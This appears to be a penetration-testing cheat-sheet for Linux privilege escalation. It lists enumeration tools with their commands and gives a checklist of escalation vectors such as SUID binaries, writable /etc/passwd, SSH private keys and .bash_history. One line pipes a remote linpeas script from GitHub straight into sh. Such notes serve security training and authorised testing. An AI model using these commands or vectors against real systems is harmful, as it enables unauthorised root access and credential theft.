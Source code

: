 - [Linux Privilege Escalation (Enumeration) Script - Bashark - redcode-labs](https://github.com/redcode-labs/Bashark)
- [Linux Privilege Escalation (Enumeration) Script - juicy-potato - ohpe](https://github.com/ohpe/juicy-potato.git)
- [GTFOBins](https://gtfobins.github.io/)



#### Methodology to follow
- <https://guif.re/linuxeop>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>

#### Attacks
- Enumeration scripts
  - `bash LinEnum.sh`
  - `bash lse.sh -l 1`
  - `bash linpeas.sh`
  - `python linuxprivchecker.py`
  - `./unix-privesc-check standard`
  - `curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`

#### Vulnerability scan
- `perl les2.pl`
- `bash les.sh`

#### Suid checker
- `python suid3num.py`
- <https://gtfobins.github.io/>

- 
  ```
  sudo -l
  Kernel Exploits
  OS Exploits
  Password reuse (mysql, .bash_history, 000- default.conf...)
  Known binaries with suid flag and interactive (nmap)
  Custom binaries with suid flag either using other binaries or with command execution
  Writable files owned by root that get executed (cronjobs)
  MySQL as root
  Vulnerable services (chkrootkit, logrotate)
  Writable /etc/passwd
  Readable .bash_history
  SSH private key
  Listening ports on localhost
  /etc/fstab
  /etc/exports
  /var/mail
  Process as other user (root) executing something you have permissions to modify
  SSH public key + Predictable PRNG
  apt update hooking (PreInvoke)
  ```
